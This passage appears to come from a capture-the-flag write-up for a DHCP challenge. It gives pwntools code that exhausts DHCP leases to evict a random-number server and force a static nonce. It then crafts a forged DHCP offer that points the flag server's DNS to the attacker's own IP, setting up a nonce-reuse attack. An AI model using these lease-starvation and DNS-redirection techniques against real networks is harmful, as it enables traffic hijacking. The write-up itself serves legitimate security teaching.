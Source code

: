 Remembering that the IP `192.168.1.1` is static to the gateway, `192.168.1.2` is assigned to `rngserver_0`, and `192.168.1.3` is assigned to the **FlagServer**, we need to request leases for all the remaining unassigned IP addresses ending in a number of the range [4 .. 63]. These 60 requests will consume all the remaining unassigned IP addresses. If we now request an additional 61th IP address, we'll kick out the `rngserver_0` from the list of leases:

```python
from pwn import *

server = 'dhcppp.chal.pwni.ng' # remote service
port = 1337
conn = remote(server, port)

print(conn.readline().decode())
print('== FINISHED SERVER BOOT ==')

# request enough IPs to remove the 'rngserver_0' from the list of leased IPs...:
print('Cycling through some IPs ...')
for _ in range(61):
	_, _, _, ip = request_ip_from_dhcp(False)
print('No more "rngserver" in the list of leased IPs')
print('Now the lavalamp always returns "sha256(RNG_INIT)!"')
# next IP will end in '.3'
```

Thus form now on, we can assume a static primary nonce with the value of `sha256(RNG_INIT)`, as long as we don't hide the string `rngserver` in any future device name.

Considering that the content of the **DHCP offer message** - which is the part, that will get encrypted - has 19 out of their 20 first bytes fixed and we can control the subsequent bytes, we actually can manipulate the first 32 bytes of this message to pull of a **key and none reuse attack**, especially since we can indirectly control the one remaining byte, which in fact is the last octet of the leased ip address, which we just need to cycle through all the other IP addresses again, as we've done before.

#### 4.2. Forge a message to the **FlagServer** to override their DNS-server entries

#### 4.2.1. Craft the desired packet
We'll focus on forging a packet that leases the IP address `192.168.1.3` (arbitrarily-chosen) and has the following structure for reasons that will become clear later on:

```python
own_ip_address = '127.0.0.1' # Change this to your own public IP address, which hosts your DNS and web server.
ip_dot_3 = '192.168.1.3'
gateway_ip = '192.168.1.1'

pkt3 = bytearray(
	bytes([int(x) for x in ip.split(".")]) +
	bytes([int(x) for x in gateway_ip.split(".")]) +
	bytes([255, 255, 255, 0]) +
	bytes([int(x) for x in own_ip_address.split(".")]) +
	bytes([int(x) for x in own_ip_address.split(".")]) +
	b'\x00'*12 +
	b'\x02'*15 +
	b"\x00"
)
assert(len(pkt3) == 48)
```
